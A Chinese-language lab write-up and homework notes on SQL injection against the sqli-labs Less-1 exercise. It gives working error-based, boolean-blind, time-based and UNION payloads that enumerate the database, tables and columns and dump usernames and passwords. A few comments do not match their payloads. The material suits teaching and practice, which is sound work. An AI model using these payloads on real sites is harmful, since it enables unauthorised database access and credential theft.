



# SQL注入技巧与示例

## 1. 基于报错的SQL注入

### 1.1 使用 `extractvalue` 提取表名

```sql
http://192.168.77.131/master/Less-1/?id=1' and (extractvalue(1, concat(0x3a, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x3a))) --+
```

- **`updatexml(arg1, arg2, arg3)`** 和 **`extractvalue(arg1, arg2)`** 可以用于报错注入。
  
- **`arg2` 参数：**
  ```sql
  concat(0x3a, (select group_concat(table_name) from information_schema.tables where table_schema=database()), 0x3a)
  ```

- 最终的payload

  ```sql
  http://192.168.77.131/master/Less-1/?id=1'and extractvalue(arg1,arg2)
  
  http://192.168.77.131/master/Less-1/?id=1'and (extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))) --+
  ```

  以上代码用于在页面中显示当前数据库中的所有表名。

### 1.2 使用 `floor` 函数进行报错注入

- **解释:**``floor报错注入``准确的说应该是``floor``,``count``,``group by``冲突报错,``count(*)``,三者缺一不可

- **示例公式：**
  
  ```sql
  and select 1 from (select count(*), concat(database(), floor(rand(0)*2)) x from information_schema.tables group by x) a
  ```
  
- **关键函数解析：**
  - **`floor()`**：取整函数
  - **`rand()`**：生成0和1之间的随机数
  - **`floor(rand(0)*2)`**：当记录数大于等于3时，必定报错且返回值有规律

### 1.3 详细解释

1. **`floor(rand()*2)` 随机输出0或1，有两条记录时可能会报错：**
   - **`rand()`**：生成0和1之间的随机数
   - **`floor(rand()*2)`**：乘以2后取整，结果只能是0或1

   由于`rand()`生成的随机数不同，可能会导致`group by`查询中出现两个不同的分组值，从而引发报错。

2. **`floor(rand(0)*2)` 记录需为3条以上，且3条以上必报错，返回值有规律：**
   - 使用种子为0的`rand(0)`函数，每次调用都会产生相同的随机数，导致所有记录的分组键相同，从而在`group by`时触发报错。

## 2. 布尔盲注

### 2.1 获取数据库名称

1. 判断数据库名长度为8：
   ```sql
   http://192.168.77.131/master/Less-1/?id=1' and (length(database()))=8 --+
   ```

2. 逐个字符猜测数据库名，最后得出数据库名为 `security`。

### 2.2 获取数据库表名

1. 获取当前数据库中的表数量：
   ```sql
   http://192.168.77.131/master/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
   ```

2. 获取第一个表名：

   ```sql
   select table_name from information_schema.tables where table_schema=database() limit 1,1;
   
   substr(表名,1,1)> < = ascii
   ```

   使用`limit`和`substr`逐字猜解表名。

3. 获取数据

   

## 3. 时间盲注

### 3.1 基于时间的盲注示例

- 如果数据库名长度大于0，则延迟10秒：
  ```sql
  if(length(database())>0, sleep(10), 1)
  ```

- 逐字猜测表名并延迟响应时间：
  ```sql
  if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1))=100, sleep(10), 1)
  ```


# 作业

### 报错注入

- 获取数据库名(security)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a)) --+
```


- 获取表名(emails,referers,uagents,users)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))) --+
```


- 获取字段名(id,username,password)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x3a)) --+
```


- 获取数据(好像只能获取2两条数据)

```sql
http://192.168.77.131/master/Less-1/
?id=1' and extractvalue(1, concat(0x3a,(select group_concat(id, 0x3a, username, 0x3a, password) from security.users),0x3a)) --+
```


- 使用union获取所有数据

```sql
http://192.168.77.131/master/Less-1/?id=-1' UNION SELECT 1, (SELECT group_concat(id, 0x3a, username, 0x3a, password SEPARATOR 0x0a) FROM security.users), 3 --+
```


### 布尔盲注

- 判断数据库名字长度(使用``<``,``>``,``=``判断,过程省略了,这里判断为8-->``security``)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (length(database()))=8 --+
```


- 构造pyload进行密码爆破(使用burp)




- 开始攻击


- 根据顺序得到--> 115 101 99 117 114 105 116 121 即为:``security``

- 然后开始获取数据库表的``数目``(跟前面判断数据库的字符数是一样的,这里有``4张``表)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

- 获取第一个表的``表名长度``(6个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 0,1) =6--+
```

- 获取第二个表的``表名长度``(8个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 1,1) =8 --+
```

- 获取第三个表的``表名长度``(7个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 2,1) =7 --+
```

- 获取第四个表的``表名长度``(5个字段)-->``users``

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 3,1) =5 --+
```

- 获取``表名``--> 117 115 101 114 115 即:``users``


- 获取字段名(我们只需要获取到数据库名和表名即可,然后用其它方式获取数据)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x3a)) --+
```

- 使用union获取所有数据

```sql
http://192.168.77.131/master/Less-1/?id=-1' UNION SELECT 1, (SELECT group_concat(id, 0x3a, username, 0x3a, password SEPARATOR 0x0a) FROM security.users), 3 --+
```

### 时间盲注(这里使用yakit,个人比较喜欢)

- 获取``数据库名长度``-->8

```
http://192.168.77.131/master/Less-1/?id=1'and if(length(database())=8,sleep(5),0) --+ 
```

- 获取``数据库名字``-->security

```sql
//获取数据库名字if(ascii(substring((select database()),1,1))=115,sleep(5),0)
//database(),1,1 第一个``1``表示从数据库名称的第一个字符开始,第二个``1``表示要截取的字符长度为1，即只获取第一个字符

http://192.168.77.131/master/Less-1/?id=1'and if(ascii(substring((select database()),1,1))=115,sleep(5),0)--+
```



- 获取该``数据库中表的数目``-->4

```sql
http://192.168.77.131/master/Less-1/?id=1'and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(5),0)--+
```

- 获取第四张表的``表名长度``-->5

```sql
http://192.168.77.131/master/Less-1/?id=1' AND IF((SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 3,1) = 5, SLEEP(5), 0) --+
```

- 获取第四张表的``表名``(构造payload爆破)

```sql
http://192.168.77.131/master/Less-1/?id=1'and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),1,1))=101,sleep(5),0) --+
```


- 依次为:117 115 101 114 115 即:``users``

- 这里就写详细些,把字段名也爆破出来

```sql
//users表的字段数-->3 也即是说在users表中有三个字段
http://192.168.77.131/master/Less-1/?id=1'and if((select count(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3,sleep(5),0) --+
```

- 获取``字段数``

```sql
//第一个字段长度为2
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1)=2,sleep(5),0) --+
```

```sql
//第二个字段长度为8
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1)=8,sleep(5),0) --+
```

```sql
//第三个字段长度为8
http://192.168.77.131/master/Less-1/?id=1' and if((select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 2,1)=8,sleep(5),0) --+
```

- 开始爆破``users``每一个字段名

```sql
//获取第一个字段名 105 100 -->对应id
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1),1,1))=97,sleep(5),0) --+
```


```sql
//获取第二个字段名 对应 117 115 101 114 110 97 109 101-->username
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1),1,1))=97,sleep(5),0) --+
```



```sql
//获取第三个字段名 对应 112 97 115 115 119 111 114 100 -->password
http://192.168.77.131/master/Less-1/?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1),2,1))=97,sleep(5),0) --+
```


- 至此``数据库名:security``,``表名:users``,``字段名:id,username,password``均获取到了,数据就不展示了!

  
